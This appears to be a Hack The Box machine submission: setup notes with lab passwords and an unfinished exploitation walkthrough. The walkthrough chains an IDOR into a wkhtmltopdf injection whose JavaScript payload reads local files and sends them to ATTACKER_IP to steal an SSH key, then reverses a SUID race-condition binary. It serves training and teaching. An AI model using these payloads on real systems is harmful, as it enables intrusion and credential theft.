## Introduction
This box chains three vulnerabilities I find genuinely underrepresented on HTB. IDOR is usually "read someone else's data" — here the write access becomes an injection point for a stored SSRF via wkhtmltopdf, which supports
JavaScript and local file access. I wanted players to realize the key lives inside the Docker container, not the host, since understanding your target environment matters more than knowing the exploit.
The TOCTOU on the SUID binary is a classic concept that rarely shows up. I left the sleep() visible so players can audit why the symlink check fails under race conditions — no tools, just timing.
The netdata privesc reflects a real misconfiguration I've seen in production monitoring stacks. Group-writable plugin directories executed as root reward careful enumeration over automated scanning.

## Info for HTB

```
  ┌───────┬────────────────────────────────────────────────────────┐
  │ User  │                        Password                        │
  ├───────┼────────────────────────────────────────────────────────┤
  │ jonny │ no password — SSH key only (obtained via SSRF exploit) │
  ├───────┼────────────────────────────────────────────────────────┤
  │ sarah │ 2cPVvgP>A7e_T#meJwCLXw0+$EqgrgX?                       │
  ├───────┼────────────────────────────────────────────────────────┤
  │ root  │ eP4Bs2p]Fa6B6bH?Q<D1a<$9PF*&CSlI                       │
  └───────┴────────────────────────────────────────────────────────┘

```
## Key Processes

  nginx — port 80, reverse proxy to Next.js frontend on 127.0.0.1:3000.
  Adds X-PDF-Generator: wkhtmltopdf/0.12.6 header on all responses (hint for players).

  Next.js frontend — port 3000 (internal only, blocked externally via iptables).
  Proxies /api/* to FastAPI backend on port 8000.

  FastAPI backend — port 8000 (internal only). Handles auth, orders, products.
  Runs wkhtmltopdf 0.12.6 intentionally — this is the vulnerable version required
  for the SSRF exploit (JavaScript + file:// access). Do not update.

  PostgreSQL 16 — port 5432 (internal only, blocked externally via iptables).

  dnsmasq — port 53 TCP/UDP, authoritative DNS for vulnshop.htb.

  Netdata stub — 127.0.0.1:19999, lightweight Python HTTP server that mimics the
  Netdata dashboard JSON response. Not real Netdata — just enough to make
  enumeration realistic. Source: /opt/netdata/netdata-stub.py

  /usr/local/bin/log-report — custom SUID binary owned by sarah. Contains an
  intentional TOCTOU race condition. fs.protected_symlinks is disabled system-wide
  (via /etc/sysctl.d/99-ctf.conf) — this is required for the exploit to work.
  Do not re-enable. Source code is included in the submission.


  ##  Automation / Crons

  1. PDF report generation (SSRF trigger)
     File: /etc/cron.d/vulnshop-cron (inside backend container)
     Schedule: every minute, runs as root
     What: runs generate_report.py — queries DB for disputed orders belonging to
     admin users, renders them as HTML, passes to wkhtmltopdf to produce a PDF.
     Why: this is the SSRF delivery mechanism. The order note field is rendered
     as raw HTML (Jinja2 autoescape=False) inside the PDF. wkhtmltopdf executes
     JavaScript, which allows reading file:///home/jonny/.ssh/id_rsa from the
     container filesystem and exfiltrating it via XHR callback.
     Source: backend/scripts/generate_report.py (attached)

  2. Netdata custom checks (privesc trigger)
     File: /etc/cron.d/netdata-custom
     Schedule: every minute, runs as root
     Command: find /opt/netdata/custom-checks -maxdepth 1 -name "*.sh"
              -executable -exec bash {} \;
              
     Why: the custom-checks directory is group-writable (root:netdata, 2775).
     Sarah is a member of the netdata group and can write executable scripts
     there. Root executes them every minute — this is the privesc to root.

  ---
  ## Firewall Rules
  
  UFW (host):
    - allow 22/tcp   (SSH)
    - allow 80/tcp   (HTTP)
    - allow 53/tcp   (DNS)
    - allow 53/udp   (DNS)
    - deny all other incoming

  iptables DOCKER-USER chain (Docker bypasses UFW, handled separately):
    - DROP tcp dpt:3000 from enp0s3  (frontend not directly accessible)
    - DROP tcp dpt:8000 from enp0s3  (backend API not directly accessible)
    - DROP tcp dpt:5432 from enp0s3  (postgres not directly accessible)

  iptables FORWARD:
    - ACCEPT from 172.18.0.0/16 out enp0s3
      (allows Docker containers to make outbound connections — required for
      the SSRF callback to reach the attacker's listener)

  ---
  ## Docker

  Three containers managed via docker compose:

    frontend  — Next.js App Router, multi-stage build (node:22-alpine).
                Proxies /api/* and /static/* to backend.

    backend   — FastAPI + wkhtmltopdf 0.12.6 (intentionally vulnerable,
                do not update). Contains jonny's SSH private key baked into
                the image at /home/jonny/.ssh/id_rsa — this is the SSRF target.
                The key matches jonny's authorized_keys on the VM host.

    postgres  — postgres:16, internal only.

  Production overrides (docker-compose.prod.yml) remove all host port bindings
  for backend and postgres so only nginx on port 80 is externally reachable.
  Dockerfiles are attached.

  ---
  ## Other

  - user.txt is chmod 640 (not the default 644). This is intentional — jonny
    must escalate to sarah to read it. Please do not change this.

  - fs.protected_symlinks = 0 is set system-wide. This is required for the
    TOCTOU exploit on log-report. Do not re-enable.

  - wkhtmltopdf 0.12.6 is pinned in the backend Dockerfile. Do not update —
    newer versions disable JavaScript and local file access by default.

  - The Netdata service on 19999 is a stub, not a real Netdata installation.
    It exists solely to make enumeration realistic and hint at the custom-checks
    directory.

## Writeup

### Enumeration

```
export TARGET=172.20.10.2

nmap -p- -sC -sV $TARGET
```

The Nmap scan reveals a Debian-based Linux host exposing SSH and an HTTP service. With the web application representing the largest exposed attack surface, further enumeration is focused on the website and its functionality.

```
Starting Nmap 7.99 ( https://nmap.org ) at 2026-05-30 14:53 +0200
Nmap scan report for 172.20.10.2
Host is up (0.00015s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 10.0p2 Debian 7+deb13u4 (protocol 2.0)
80/tcp open  http    nginx
|_http-title: VulnShop
| http-robots.txt: 1 disallowed entry 
|_/static/reports/
MAC Address: 08:00:27:A7:89:BA (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Add to /etc/hosts

```
172.20.10.2 vulnshop.htb
```

Website:


Before interacting with the application, additional enumeration was performed to identify hidden content and attack surfaces.

Hidden Directories:
```
gobuster dir -u http://$TARGET -w ~/wordlists/discovery/Web-Content/common.txt -t 50 --timeout 3s
```

Output:

```
.git/logs/           (Status: 308) [Size: 10] [--> /.git/logs]
account              (Status: 307) [Size: 1] [--> /]
cgi-bin/             (Status: 308) [Size: 8] [--> /cgi-bin]
contact              (Status: 200) [Size: 9662]
favicon.ico          (Status: 200) [Size: 25931]
login                (Status: 200) [Size: 8413]
orders               (Status: 307) [Size: 1] [--> /]
products             (Status: 307) [Size: 1] [--> /]
register             (Status: 200) [Size: 8419]
robots.txt           (Status: 200) [Size: 41]
staff                (Status: 200) [Size: 16082]
static               (Status: 500) [Size: 21]
```

The `robots.txt` file contains a single disallowed entry pointing to `/static/reports/`, suggesting the application generates and stores reports.

```
curl http://$TARGET/robots.txt
```

Output:
```
User-agent: *
Disallow: /static/reports/
```

Subdomains
```
ffuf -u http://$TARGET/  -H 'Host: FUZZ.$TARGET' -w /home/kali/wordlists/discovery/DNS/subdomains-top1million-20000.txt -fs 7929
```

No additional subdomains were identified during virtual host enumeration, so the focus remained on the web application.



> After registering a new account and logging in, I began reviewing the application's functionality through Burp Suite. Wappalyzer identified the stack as Nginx, Next.js, and React. During this process, a non-standard response header was observed:

> `X-PDF-Generator: wkhtmltopdf/0.12.6`

> This suggests the application generates PDF reports using wkhtmltopdf, making it an interesting target for further investigation.


```
X-PDF-Generator: wkhtmltopdf/0.12.6
```

Researching the header revealed that wkhtmltopdf 0.12.6 is affected by SSRF through local file access and JavaScript execution, documented as **CVE-2022-35583**.
Description
```
https://nvd.nist.gov/vuln/detail/CVE-2022-35583
```

The focus now shifts to finding an injection point that reaches the PDF generation process.



The `/api/orders` endpoint is particularly interesting because it exposes a user-controlled `note` field. Since this data may be included in generated reports, the request was sent to Burp Repeater to test for HTML and JavaScript injection.
PUT request where we can change a note


The response contains a `user_id` field with a value of `7`. This raises the possibility of an IDOR vulnerability, so the next step is to request orders belonging to other users by modifying the order ID.


The response only contains orders associated with the current account, indicating that access controls are enforced for standard requests.


However, requesting order `1` returns data belonging to `user_id: 2`, confirming that orders can be accessed without ownership validation.


To determine whether the IDOR also affects write operations, a `PUT` request was sent to `/api/orders/1` with a modified `note` value.



At this point, we have an IDOR that allows modification of other users' orders and a vulnerable `wkhtmltopdf` instance. The remaining task is to identify an injection point that reaches the PDF generation process. Since the `note` field is user-controlled, it becomes the primary target for HTML and JavaScript injection testing. As the rendering process is blind and session cookies are protected with `HttpOnly`, out-of-band interaction is used to confirm code execution.



Payload

```

```

Listener

```
nc -lvnp 9999
```

And we get a response from remote server



The callback confirms that the payload is being processed by `wkhtmltopdf`. Since only orders with a `disputed` status are included in generated reports, the identified IDOR can be used to modify another user's order and inject a payload into the PDF generation workflow.

### Foothold as jonny

With control over the rendered content, a JavaScript payload can be injected to read local files through `file://` and exfiltrate their contents to an external listener. Since the rendering process is blind, the response must be returned through an out-of-band callback.

```
<script>var x=new XMLHttpRequest();x.open(\"GET\",\"file:///etc/passwd\",false);x.send();var y=new XMLHttpRequest();y.open(\"GET\",\"http://ATTACKER_IP:9999/?k=\"+btoa(x.responseText),false);y.send();</script>
```

Listener 

```
nc -lvnp 9999
```



Successfully catch a response 


Decoding 



After decoding the response, `/etc/passwd` is recovered. The file reveals a user named `jonny` with a home directory at `/home/jonny`, making `/home/jonny/.ssh/id_rsa` a valuable target. Repeating the attack against this file returns a Base64-encoded SSH private key, providing access as `jonny` 

```
cat private.b64| base64 -d > jonny-ssh 
chmod 600 jonny-ssh 
ssh -i jonny-ssh jonny@172.20.10.2
```



### Privilege Escalation to Sarah

During local enumeration, a non-standard SUID binary was identified at `/usr/local/bin/log-report`. Since SUID binaries execute with the privileges of their owner, they are often worth investigating for privilege escalation opportunities.

```
find / -perm -4000 2>/dev/null
```

Output:

```
/usr/libexec/netdata/plugins.d/ndsudo
/usr/libexec/netdata/plugins.d/ioping.plugin
/usr/libexec/netdata/plugins.d/nfacct.plugin
/usr/libexec/netdata/plugins.d/cgroup-network
/usr/libexec/netdata/plugins.d/local-listeners
/usr/libexec/netdata/plugins.d/ebpf.plugin
/usr/local/bin/log-report
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/umount
/usr/bin/sudo
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/mount
/usr/bin/su
/usr/bin/chsh
```

Non-default 

```
/usr/local/bin/log-report
```

The file permissions reveal that the binary is owned by `sarah`, meaning it executes with her privileges when run by another user.

```
ls -la /usr/local/bin/log-report
```

The binary is owned by `sarah`, making her the effective user during execution.

```
-rwsr-xr-x 1 sarah sarah 16680 May 30 12:06 /usr/local/bin/log-report
```

To better understand its functionality, the binary was inspected using `strings` to identify hardcoded paths, messages, and other useful artifacts.

```
strings /usr/local/bin/log-report
```

`strings` does not reveal anything immediately useful. However, inspecting Jonny's home directory uncovers a file named `.report_in`, which appears to be related to the binary's functionality and warrants further investigation.

```
jonny@vulnshop:~$ ls -la
total 28
drwx--x--x 3 jonny jonny 4096 May 30 14:51 .
drwxr-xr-x 5 root  root  4096 May 30 11:28 ..
lrwxrwxrwx 1 root  root     9 May 28 19:52 .bash_history -> /dev/null
-rw-r--r-- 1 jonny jonny  220 May  9 11:07 .bash_logout
-rw-r--r-- 1 jonny jonny 3526 May  9 11:07 .bashrc
lrwxrwxrwx 1 root  root     9 May 28 19:52 .mysql_history -> /dev/null
-rw-r--r-- 1 jonny jonny  807 May  9 11:07 .profile
lrwxrwxrwx 1 root  root     9 May 28 19:52 .python_history -> /dev/null
-rw-rw-r-- 1 jonny jonny   13 May 30 14:51 .report_in
lrwxrwxrwx 1 root  root     9 May 28 19:52 .sh_history -> /dev/null
drwx------ 2 jonny jonny 4096 May 30 11:19 .ssh
lrwxrwxrwx 1 root  root     9 May 28 19:52 .viminfo -> /dev/null
lrwxrwxrwx 1 root  root     9 May 28 19:52 .zsh_history -> /dev/null
```

To better understand the binary's behavior, it was transferred to the local machine and analyzed in Ghidra.

```
cp /usr/local/bin/log-report .
```

A temporary HTTP server was started on the target to transfer the binary for offline analysis.

```
python3 -m http.server 8888
```

The binary was then downloaded to the local machine for further analysis in Ghidra.

```
curl http://$TARGET:8888/log-report -o log-report
```

Analysis in Ghidra begins at the `entry()` function, which eventually leads to the binary's main logic.



The `entry()` function passes execution to `FUN_00101245`, making it the next function of interest for analysis.

Decompiled code

```
undefined8 FUN_00101245(void)

{
  int iVar1;
  undefined8 uVar2;
  char *pcVar3;
  time_t local_940;
  undefined1 local_938 [2048];
  stat local_138;
  char local_a8 [64];
  char local_68 [72];
  size_t local_20;
  FILE *local_18;
  FILE *local_10;
  
  FUN_001011e9(local_68,&DAT_00102010,0x16);
  FUN_001011e9(local_a8,&DAT_00102030,0x17);
  local_940 = time((time_t *)0x0);
  iVar1 = lstat(local_a8,&local_138);
  if (iVar1 == 0) {
    if ((local_138.st_mode & 0xf000) == 0xa000) {
      return 1;
    }
    unlink(local_a8);
  }
  local_10 = fopen(local_68,"r");
  if (local_10 == (FILE *)0x0) {
    uVar2 = 1;
  }
  else {
    pcVar3 = ctime(&local_940);
    printf("[log-report] archiving report entry -- %s",pcVar3);
    fflush(stdout);
    sleep(0x1e);
    local_18 = fopen(local_a8,"w");
    if (local_18 == (FILE *)0x0) {
      fclose(local_10);
      uVar2 = 1;
    }
    else {
      while (local_20 = fread(local_938,1,0x800,local_10), local_20 != 0) {
        fwrite(local_938,1,local_20,local_18);
      }
      fclose(local_10);
      fclose(local_18);
      puts("[log-report] done.");
      uVar2 = 0;
    }
  }
  return uVar2;
}
```

The first notable function is `FUN_001011e9`, which is called twice from `FUN_00101245`. To understand its purpose, the function was examined in more detail.

Decompiled code

```
void FUN_001011e9(long param_1,long param_2,ulong param_3)

{
  undefined8 local_10;
  
  for (local_10 = 0; local_10 < param_3; local_10 = local_10 + 1) {
    *(byte *)(local_10 + param_1) = *(byte *)(local_10 + param_2) ^ 0x5a;
  }
  *(undefined1 *)(param_3 + param_1) = 0;
  return;
}
```

This function probably.Decodes an XOR-obfuscated string byte-by-byte using the key `0x5a` and writes the result into a buffer. So what we need to do check what variables this function takes in `long param_2,ulong param_3` move back to `FUN_00101245` function we can call it `main()`

```
FUN_001011e9(local_68,&DAT_00102010,0x16);
FUN_001011e9(local_a8,&DAT_00102030,0x17);
```

Based on its behavior, this function appears to decode an obfuscated string and store the result in a buffer.

```
Three arguments:
  
  1. local_68 / local_a8 — buffer where the decoded string is written
  2. &DAT_00102010 / &DAT_00102030 — pointer to the encoded bytes
  3. 0x16 / 0x17 — length of the string (22 and 23 bytes)
```

The encoded data is stored in `DAT_00102010` and `DAT_00102030`. Since the function is called with lengths of `0x16` and `0x17`, these arrays contain 22 and 23 bytes respectively. Examining `DAT_00102030` reveals the following encoded byte sequence



Our variable starts from `00102030 + 0x17 - 1 = 00102046` 
```
00102030 - start of array
00102046 - end of array
```

So we copying from 30 to 46 

Right click -> Copy as Special -> Python List and as a result we got this 

```
[ 0x75, 0x32, 0x35, 0x37, 0x3f, 0x75, 0x30, 0x35, 0x34, 0x34, 0x23, 0x75, 0x74, 0x28, 0x3f, 0x2a, 0x35, 0x28, 0x2e, 0x05, 0x35, 0x2f, 0x2e ]
```

Now let's decode it write a small python script 
```
key = 0x5A
enc_out = [0x75,0x32,0x35,0x37,0x3f,0x75,0x30,0x35,
             0x34,0x34,0x23,0x75,0x74,0x28,0x3f,0x2a,
             0x35,0x28,0x2e,0x05,0x35,0x2f,0x2e]

